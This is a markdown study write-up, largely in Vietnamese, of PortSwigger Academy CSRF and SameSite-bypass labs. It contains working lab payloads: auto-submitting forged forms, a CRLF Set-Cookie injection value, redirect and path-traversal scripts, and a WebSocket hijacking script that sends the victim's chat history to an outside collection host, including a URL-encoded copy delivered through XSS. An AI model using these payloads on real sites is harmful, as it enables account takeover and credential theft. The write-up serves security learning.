

# [CSRF](https://portswigger.net/web-security/csrf)

Causes and Conditions: 

- Applications rely solely on session cookies for authentication without verifying request origin
- Absence of anti-CSRF tokens or SameSite cookie attributes.
- 3 conditions: 
  - A relevant action: email change,...
  - Cookie-based session handling
  - No unpredictable request parameters: request to change password require the old one,...


Impact: 

- Unauthorized actions performed on behalf of authenticated users

- Potential account compromise, fund transfers, or data tampering

Categories: 

- 

Prevention:  

- Use SameSite=strict or SameSite=lax cookie attributes.
- Implement anti-CSRF tokens in state-changing requests.
- Verify the origin or Referer headers server-side.

XSS vs CSRF:

- 

Common Payloads through Labs Completion:

## - Apprentice

### [Lab 1: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

- Log in using the given cred:



- Using function auto generate CSRF POC of Burpsuite pro: 


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa9008403583938804017ea00ce00dd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="n33r9&#64;hacker4&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Submit it to the exploit server: tab `body` ` and get the result of email change: 


=> Change email successfully!

## - Practitioner

### [Lab 1: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)


- Send request to repeater and change csrf parameter and observe the result: 


- Change request method: GET

`GET /my-account/change-email?email=n33r9%40hacker3.com&csrf=n33r9`


=> HTTP/2 302 Found

- Gen new CSRF payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0c00d80307391e8053354f00840064.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n33r9&#64;hacker3&#46;com" />
      <input type="hidden" name="csrf" value="n33r9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

 


### [Lab 2: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

Lab des: 

**Chức năng đổi email** không thực sự kiểm tra giá trị của token CSRF – chỉ cần token tồn tại trong request là hợp lệ.

=> Cho phép tấn công CSRF bằng cách gửi một form giả tới `/my-account/change-email` kèm theo một token bất kỳ.

steps:

- Thay đổi email:

 


- Thay đổi gái trị csrf :

 


- XOá hẳn csrf

 

- gen csrf poc sử dụng burpsuite

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afe00de03a17bee805f2bc0001500a7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="thao&#46;khong&#64;lq&#46;co" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```


### [Lab 3: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

Lab des:

Ứng dụng có chức năng đổi email dùng CSRF token.

Tuy nhiên, CSRF token không gắn chặt với session ⇒ server không kiểm tra token có hợp lệ với người dùng hay không, chỉ cần *token hợp lệ về mặt cú pháp* là được.

=> Lấy token từ chính tài khoản của mình => tấn công tài khoản khác (carlos)

steps: 

- login as `wiener` => csrf token: 

  ```js
  email=thao.khong%40lqd1.vn&csrf=59GRiBb3KQKFxgenN5zZn3fbb13IOWJf
  ```

- login as `carlos` => csrf token ở tab ẩn danh:


```
bawV7IZTxbuEr8pzUH0LXrcQI8a6P0fG
```

- Đổi csrf token từ carlos sang wiener:

  ```
  email=wienr2%40test1.com&csrf=bawV7IZTxbuEr8pzUH0LXrcQI8a6P0fG
  ```

  

302 found => csrf không gắn với session

- craft payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5b007d04bde8c180a958ae00db00ee.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wienr2&#64;testsuccess&#46;com" />
      <input type="hidden" name="csrf" value="59GRiBb3KQKFxgenN5zZn3fbb13IOWJf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```


### [Lab 4: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

lab des: 

Token csrf không ràng buộc cùng với session cookie.

`session` – cookie quản lý **phiên đăng nhập**.

`csrfKey` – cookie dùng để **tạo CSRF token**.


Thay đổi Cookie `session` → bị **đăng xuất** → là cookie xác thực phiên.

Thay đổi Cookie `csrfKey` → **token bị từ chối**, **nhưng không bị đăng xuất**.

Đăng nhập ẩn danh vào tài khoản thứ 2, mượn csrfKey và csrf của tài khoản 2, thay vào tài khoản 1, và thực hiện change email => request được chấp nhận

- chức năng search: 

  => search term được reflected trong trường Set-cookie

steps:

- Craft payload: bỏ auto submit, chèn thêm dòng này: ``
- `test\r\nSet-Cookie: csrfKey=YjDqh0pgDKAlu5xMpug8xjaRBw3hX3OM; SameSite=None`

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/');</script>
    <form action="https://0a5100e704c97ef381c0fd29005a0070.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;test&#46;com&#46;vn" />
      <input type="hidden" name="csrf" value="wRIe5w5zqS456jIGu5ix3mDnKtTFnmfi" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>

```


### [Lab 5: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)

Lab des:

Ứng dụng cố gắng ngăn chặn CSRF bằng cách dùng kỹ thuật **"double submit" cookie**, nhưng cách triển khai không an toàn.

Server gửi một **cookie chứa CSRF token** (ví dụ: `csrf=abc123`).

Form gửi lên sẽ có một **input hidden trùng giá trị** với CSRF token trong cookie.

 Trên server, so sánh giá trị trong cookie và trong input. Nếu trùng thì chấp nhận.


=> search term được reflect trong trường `Set-cookie` + không có `csrf` bảo vệ => có thể dùng để chèn cookie vào trình duyệt của nạn nhân

`/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None`

Steps:


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/');</script>
    <form action="https://0a1b00a504484c4d8241bf8d00800087.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="winer&#46;khong&#64;lqd&#46;xn" />
      <input type="hidden" name="csrf" value="3mPPWvLMixEiC5e0RXEO4FMnZ2tkNDl3" />
      <input type="submit" value="Submit request" />
    </form>
      
  </body>
</html>

```

### 


### [Lab 6:  SameSite Lax bypass via method override](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)

Lab des: 


=> khoogn sử dụng csrf token => cookie được gửi thành công từ domain khác, attacker có thể khai thác điều này để thay đổi email của người dùng.


Không chỉ định mức độ và kiểu Samesite restrict => mức độ Lax mặc định

Thuộc tính `SameSite` trong cookie kiểm soát **liệu cookie có được gửi kèm trong các request từ domain khác hay không**.

- `Strict`: Không bao giờ gửi cookie trong cross-site request.
- `Lax`: Gửi cookie **trong GET request** nếu là điều hướng cấp cao nhất (ví dụ người dùng bấm link).
- `None`: Cho phép gửi cookie trong mọi cross-site request (phải đi kèm `Secure`).

Vì website **không chỉ định** `SameSite`, nên trình duyệt sẽ dùng **giá trị mặc định là `Lax`**. Tức là:

- Các **GET request cross-site** có thể gửi kèm cookie (ví dụ từ một trang giả mạo).
- Nếu attacker tạo một link chứa payload và dụ người dùng bấm vào, cookie sẽ được gửi → CSRF attack có thể thực hiện.


Steps: 

- Bypass the Samesite:

  CHuyển method của req change email thành GET: 


Bypass: 


=> server đã chấp nhận request


- Craft payload: 

```html
<script>
    document.location = "https://0ac30030038a360d80e5038c00590030.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```


### [Lab 7: SameSite Strict bypass via client-side redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

Lab des: 

Trang web mục tiêu sử dụng cookie session với thuộc tính `SameSite=Strict`, ngăn cookie được gửi trong các cross-site requests. Tuy nhiên, có thể bypass được cơ chế này bằng cách sử dụng redirect phía client (JavaScript).

Trang web chứa một chức năng thay đổi email mà không sử dụng CSRF token, vì vậy nếu vượt qua được cơ chế bảo vệ SameSite, có thể tấn công CSRF thành công.

VD về SameSite strict:

- Trình duyệt không gửi cookie khi `evil.com` gửi `POST` trực tiếp đến `vulnerable.com` vì `SameSite=Strict`.

- Tuy nhiên, nếu trang của attacker chuẩn bị, chuyển hướng người dùng đến `vulnerable.com` thông qua một client-side redirect nào đó thì trình duyệt coi đó là một điều hướng thông thường giống như người dùng nhập URL → cookie sẽ được gửi kèm

Khảo sát các điều kiện của bài lab:

- request `POST /my-account/change-email`:


=> request không chứa unpredictable tokens 

- Response của request POST /login


=> SameSite=Strict


Steps: 

- Tìm kiếm gadget phù hợp

  Chức năng comment: 

  

  Khi comment xong, user được chuyển đến 1 comfirmation page, và sau đó chuyển hướng ngay lại trang blog post ban đầu, sử dụng script: 

  `/resources/js/commentConfirmationRedirect.js`

  

Gửi thử một request comment với postId=n33r9


Server đang cố gắng redirect về trang ''/post/n33r9'


=> nhưng không tìm thấy trang

=> craft payload path traversal, để redirect về trang `my-account`: `/post/comment/confirmation?postId=1/../../my-account`

=> redirect thành công về trang my-account => có thể dùng tham số postId param để gửi request GET đến điểm bất kì của target site.

- <script>     document.location = "https://0a35009a04ad453f808603a400b80013.web-security-academy.net/post/comment/confirmation?postId=../my-account"; </script>

=> sau khi ng dùng bấm vào link payload, sẽ được redirect về trang login.


=> tức là, kể cả khi request submit comment được gửi từ một trang bất kì, thì trình duyệt vẫn bao gồm cả thông tin cookie của người dùng comment

thêm nữa, khi thử gửi req GET thay đổi email, trình duyệt vẫn cho phép người dùng thay đổi email thành công.

- craft payload: 

```
<script>
    document.location = "https://0a35009a04ad453f808603a400b80013.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```


### [Lab 8: SameSite Strict bypass via sibling domain](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

Lab des: 

Tấn công Cross-site WebSocket Hijacking (CSWSH) vào tính năng Live chat để:

- Lấy lịch sử chat của nạn nhân (chứa tài khoản đăng nhập).
- Gửi thông tin đó về Burp Collaborator.
- Đăng nhập vào tài khoản của nạn nhân bằng thông tin vừa đánh cắp.

Tính năng Live chat trong bài lab: 


=> không có unpredictable param

GET /chat gọi đến một script trung gian: chat.js


=> xuất hiện 1 url

Khi bấm refresh lại trang live chat, browser gửi một message `ready` đến server, và load lại toàn bộ cuộc trò chuyện


- Craft payload: 

  ```
  <script>
      var ws = new WebSocket('wss://0a2b00c503b978c680d012d500b500d2.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send("READY");
      };
      ws.onmessage = function(event) {
          fetch('https://o7w4pdhcum3s2gebmcgp4bnj3a91xwll.oastify.com.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
      };
  </script>
  ```

  

=> view exploit: http req và res: bắt đầu một cuộc nói chuyện mới


Xem request GET /chat, ta thấy khi payload trên gọi trực tiếp url /chat:


=> session không được gửi cùng req GET /chat


=> Do SameSite=Strict => session k ddwuocj gửi kèm req, không lấy được chat history.

Tuy nhiên, để ý trong phần response của `GET /resources/js/chat.js HTTP/2` có một URL.

Truy cập vào URL mới xuất hiện ở trên - có thể là sibling domain: 

```js
Access-Control-Allow-Origin: https://cms-0a2b00c503b978c680d012d500b500d2.web-security-academy.net
```


Nhập bừa một tài khoản và thấy `username` được reflect trong message `Invalid username`

Thử chèn xss payload đơn giản test xem sao: `<script>alert(1)</script>`


=> it works 


Chuyển req thành GET và có kết quả tương tự:


copy url và mở trên browser cũng có kết quả tương tự:


=> tận dụng lỗ hổng xss này để chèn vào đoạn mã in ra chat history của victim. 

(Do server sử dụng samesite strict, nên nếu payload exploit gọi trực tiếp url /chat, thì server sẽ không gửi kèm session của victim, nhưng nếu url /chat được gọi thông qua việc khai thác lỗ hổng xss của trang cms-... (thực thi đoạn mã js bất kì) thì session lại được gửi kèm, giống như người dùng tự truy cập url => khi đó ta sẽ thấy ddwuocj chat history của victim)

- Bypass samesite restrictions: 

  ```
  <script>
      var ws = new WebSocket('wss://0ade001903f880e5a4c8b4e100d500ce.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send("READY");
      };
      ws.onmessage = function(event) {
          fetch('https://kth0b938gipooc07882lq79fp6vxjx7m.oastify.com.oastify.com.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
      };
  </script>
  ```

  Hoặc có thể sử dụng exploit server để nhận message luôn: 

  ```
  <script>
      var ws = new WebSocket('wss://0ade001903f880e5a4c8b4e100d500ce.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send("READY");
      };
      ws.onmessage = function(event) {
          fetch("https://exploit-0aa200c703ec80eea475b3550148001b.exploit-server.net/exploit?message="+ btoa(message));
      };
  </script>
  ```

  url encode cả script trên:

  ```
  %3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%64%65%30%30%31%39%30%33%66%38%38%30%65%35%61%34%63%38%62%34%65%31%30%30%64%35%30%30%63%65%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%33%68%6c%6a%7a%73%72%72%34%31%64%37%63%76%6f%71%77%72%71%34%65%71%78%79%64%70%6a%67%37%66%76%34%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
  ```

  Craft final payload:

```
<script>
    document.location = "https://cms-0ade001903f880e5a4c8b4e100d500ce.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%64%65%30%30%31%39%30%33%66%38%38%30%65%35%61%34%63%38%62%34%65%31%30%30%64%35%30%30%63%65%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%33%68%6c%6a%7a%73%72%72%34%31%64%37%63%76%6f%71%77%72%71%34%65%71%78%79%64%70%6a%67%37%66%76%34%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=123456";
</script>
```


Nếu dùng exploit server nhận message, đoạn mã chèn vào sẽ như trong hình:


deliver the exploit to the victim, quan sát các tương tác HTTP với collaborator, hoặc nếu sử dụng exploit server thì xem access log và decode base64, trong chat history sẽ có creds của user cần lấy.


### [Lab 9: SameSite Lax bypass via cookie refresh](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)

Lab des: 


Steps: 
